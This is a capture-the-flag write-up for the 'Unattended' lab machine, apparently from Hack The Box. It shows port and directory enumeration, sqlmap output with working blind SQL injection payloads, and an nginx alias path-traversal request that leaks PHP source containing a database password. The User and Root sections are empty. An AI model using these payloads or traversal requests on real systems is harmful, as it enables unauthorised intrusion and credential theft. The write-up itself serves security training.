

# Unattended
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.10.126 --min-rate 5000                                     
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-27 16:02 BST
Nmap scan report for 10.10.10.126 (10.10.10.126)
Host is up (0.17s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 38.83 seconds
```
```
└─$ nmap -Pn -p80,443 -sC -sV 10.10.10.126 --min-rate 5000
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-27 16:04 BST
Nmap scan report for 10.10.10.126 (10.10.10.126)
Host is up (0.20s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     nginx 1.10.3
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.10.3
443/tcp open  ssl/http nginx 1.10.3
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.nestedflanders.htb/organizationName=Unattended ltd/stateOrProvinceName=IT/countryName=IT
| Not valid before: 2018-12-19T09:43:58
|_Not valid after:  2021-09-13T09:43:58
|_http-server-header: nginx/1.10.3

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.19 seconds

```

- Web server



- `vhosts`
```
└─$ wfuzz -u https://www.nestedflanders.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H 'Host: FUZZ.nestedflanders.htb' --hw 1
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://www.nestedflanders.htb/
Total requests: 19966

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                                    
=====================================================================

000000001:   200        368 L    933 W      10701 Ch    "www"
```

- `gobuster`
```
└─$ gobuster dir -u https://www.nestedflanders.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html -t 50 -k -b 404,503 --exclude-length 311
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://www.nestedflanders.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   503,404
[+] Exclude Length:          311
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 291]
/.php                 (Status: 403) [Size: 290]
/index.php            (Status: 200) [Size: 1244]
/dev                  (Status: 301) [Size: 1]

```

## Foothold
- We have 3 pages on `https://www.nestedflanders.htb/index.php`
  - Click `main` and you will see `?id=25`
  - Other pages show identical parameter but with other value
  - If we visit `about` page, but also add `'`, like `https://www.nestedflanders.htb/index.php?id=465'`, we are redirected to `main` page
  - Let's launch `sqlmap`
```
└─$ sqlmap -u 'https://www.nestedflanders.htb/index.php?id=465' --batch   
<SNIP>
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 300 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=465' AND 1933=1933 AND 'petC'='petC

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=465' AND (SELECT 5116 FROM (SELECT(SLEEP(5)))hwSG) AND 'EjoV'='EjoV
---
[16:31:09] [INFO] the back-end DBMS is MySQL
web application technology: PHP, Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[16:31:09] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/www.nestedflanders.htb'

[*] ending @ 16:31:09 /2023-10-28/

```

- I'll dump the databases and the tables
```
└─$ sqlmap -u 'https://www.nestedflanders.htb/index.php?id=465' --batch --dbs
<SNIP>
available databases [2]:
[*] information_schema
[*] neddy
```
```
└─$ sqlmap -u 'https://www.nestedflanders.htb/index.php?id=465' --batch -D neddy --tables
<SNIP>
Database: neddy
[11 tables]
+--------------+
| config       |
| customers    |
| employees    |
| filepath     |
| idname       |
| offices      |
| orderdetails |
| orders       |
| payments     |
| productlines |
| products     |
+--------------+
```
- I'll dump everyting in the background
- If we visit `dev` it says `dev site has been moved to his own server `
  - Could be `dev.nestedflanders.htb`
  - I tried fuzzing subdomains but no luck
  - Based on forum hints, I got on the right track
  - So there seems like another way to path traverse if `nginx` is used as proxy
    - https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/
    - https://www.youtube.com/watch?v=CIhHpkybYsY&t=572s
  - If location doesn't end with `/`, we can esca[e the path
```
location /i { # Have to be /i/
    alias /data/w3/images/;
}
``` 

- We can test for misconfiguration
  - If we consider basic path: `/var/www/`, we gave `html` and probably `dev` folders
  - We can't traverse to `html`, since we are in `dev`
  - But if we perform path traversing mentioned above, we have a hit
```
└─$ curl -s -k -i https://www.nestedflanders.htb/dev/../html/index.html | grep HTTP
HTTP/1.1 404 Not Found
```
```
└─$ curl -s -k -i https://www.nestedflanders.htb/dev../html/index.html | grep HTTP
HTTP/1.1 200 OK
                If you can read this page, it means that the Apache HTTP server installed at
                <tt>/var/www/html/index.html</tt>) before continuing to operate your HTTP server.
                                                                                                    
```

- We can dump the `index.php` which was used in root path
```
└─$ curl -s -k -i https://www.nestedflanders.htb/dev../html/index.php            
HTTP/1.1 200 OK
Server: nginx/1.10.3
Date: Sat, 28 Oct 2023 16:33:51 GMT
Content-Type: application/octet-stream
Content-Length: 2721
Last-Modified: Wed, 19 Dec 2018 15:37:40 GMT
Connection: keep-alive
ETag: "5c1a65c4-aa1"
Accept-Ranges: bytes

<?php
$servername = "localhost";
$username = "nestedflanders";
$password = "1036913cf7d38d4ea4f79b050f171e9fbf3f5e";
$db = "neddy";
$conn = new mysqli($servername, $username, $password, $db);
$debug = False;

include "6fb17817efb4131ae4ae1acae0f7fd48.php";

function getTplFromID($conn) {
        global $debug;
        $valid_ids = array (25,465,587);
        if ( (array_key_exists('id', $_GET)) && (intval($_GET['id']) == $_GET['id']) && (in_array(intval($_GET['id']),$valid_ids)) ) {
                        $sql = "SELECT name FROM idname where id = '".$_GET['id']."'";
        } else {
                $sql = "SELECT name FROM idname where id = '25'";
        }
        if ($debug) { echo "sqltpl: $sql<br>\n"; } 

        $result = $conn->query($sql);
        if ($result->num_rows > 0) {
        while($row = $result->fetch_assoc()) {
                $ret = $row['name'];
        }
        } else {
                $ret = 'main';
        }
        if ($debug) { echo "rettpl: $ret<br>\n"; }
        return $ret;
}

function getPathFromTpl($conn,$tpl) {
        global $debug;
        $sql = "SELECT path from filepath where name = '".$tpl."'";
        if ($debug) { echo "sqlpath: $sql<br>\n"; }
        $result = $conn->query($sql);
        if ($result->num_rows > 0) {
                while($row = $result->fetch_assoc()) {
                        $ret = $row['path'];
                }
        }
        if ($debug) { echo "retpath: $ret<br>\n"; }
        return $ret;
}

$tpl = getTplFromID($conn);
$inc = getPathFromTpl($conn,$tpl);
?>

<!DOCTYPE html>
<html lang="en">
<head>
  <title>Ne(ste)d Flanders</title>
  <meta charset="utf-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
  <link rel="stylesheet" href="bootstrap.min.css">
  <script src="jquery.min.js"></script>
  <script src="bootstrap.min.js"></script>
</head>
<body>

<div class="container">
  <h1>Ne(ste)d Flanders' Portfolio</h1>
</div>

<div class="container">
<div center class="row">
<?php

$sql = "SELECT i.id,i.name from idname as i inner join filepath on i.name = filepath.name where disabled = '0' order by i.id";
if ($debug) { echo "sql: $sql<br>\n"; }

$result = $conn->query($sql);
if ($result->num_rows > 0) {
        while($row = $result->fetch_assoc()) {
                //if ($debug) { echo "rowid: ".$row['id']."<br>\n"; } // breaks layout
                echo '<div class="col-md-2"><a href="index.php?id='.$row['id'].'" target="maifreim">'.$row['name'].'</a></div>';
                }
} else {
?>
        <div class="col-md-2"><a href="index.php?id=25">main</a></div>
        <div class="col-md-2"><a href="index.php?id=465">about</a></div>
        <div class="col-md-2"><a href="index.php?id=587">contact</a></div>
        <?php
}

?>
</div> <!-- row -->
</div> <!-- container -->


<div class="container">
<div class="row">
<!-- <div align="center"> -->
<?php
include("$inc");
?>
<!-- </div> -->

</div> <!-- row -->
</div> <!-- container -->
<?php if ($debug) { echo "include $inc;<br>\n"; } ?>

</body>
</html>

<?php
$conn->close();
?>

```

- We have a `LFI`
```
<SNIP>
$conn = new mysqli($servername, $username, $password, $db);
$debug = False;
include "6fb17817efb4131ae4ae1acae0f7fd48.php";

function getTplFromID($conn) {
        global $debug;
        $valid_ids = array (25,465,587);
        if ( (array_key_exists('id', $_GET)) && (intval($_GET['id']) == $_GET['id']) && (in_array(intval($_GET['id']),$valid_ids)) ) {
                        $sql = "SELECT name FROM idname where id = '".$_GET['id']."'";
        } else {
                $sql = "SELECT name FROM idname where id = '25'";
        }
        if ($debug) { echo "sqltpl: $sql<br>\n"; } 

        $result = $conn->query($sql);
        if ($result->num_rows > 0) {
        while($row = $result->fetch_assoc()) {
                $ret = $row['name'];
        }
        } else {
                $ret = 'main';
        }
        if ($debug) { echo "rettpl: $ret<br>\n"; }
        return $ret;
}

function getPathFromTpl($conn,$tpl) {
        global $debug;
        $sql = "SELECT path from filepath where name = '".$tpl."'";
        if ($debug) { echo "sqlpath: $sql<br>\n"; }
        $result = $conn->query($sql);
        if ($result->num_rows > 0) {
                while($row = $result->fetch_assoc()) {
                        $ret = $row['path'];
                }
        }
        if ($debug) { echo "retpath: $ret<br>\n"; }
        return $ret;
}

$tpl = getTplFromID($conn);
$inc = getPathFromTpl($conn,$tpl);
<SNIP>
<?php
include("$inc");
?>
<!-- </div> -->

</div> <!-- row -->
</div> <!-- container -->
<?php if ($debug) { echo "include $inc;<br>\n"; } ?>

</body>
</html>

<?php
<SNIP>
```

- Let's check another file included
```
└─$ curl -s -k -i https://www.nestedflanders.htb/dev../html/6fb17817efb4131ae4ae1acae0f7fd48.php
HTTP/1.1 200 OK
Server: nginx/1.10.3
Date: Sat, 28 Oct 2023 16:38:29 GMT
Content-Type: application/octet-stream
Content-Length: 256
Last-Modified: Wed, 19 Dec 2018 13:32:41 GMT
Connection: keep-alive
ETag: "5c1a4879-100"
Accept-Ranges: bytes

<?php
session_start();
if (isset($_SESSION['user_name'])){
        $user_name = $_SESSION['user_name'];
}

foreach ($_COOKIE as $key => $val) {
        $_SESSION[$key] = $val;
}

/* removed everything because of undergoing investigation, please check dev and staging */
```
## User


## Root